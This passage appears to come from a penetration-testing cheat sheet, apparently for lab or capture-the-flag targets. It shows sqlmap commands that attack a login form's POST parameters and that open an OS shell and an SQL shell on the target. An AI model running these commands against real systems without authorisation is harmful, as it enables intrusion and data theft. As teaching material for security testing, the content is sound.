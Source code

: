 ### POST

Find the parameters that are being passed in POST using BurpSuite.  
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find it on it's own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

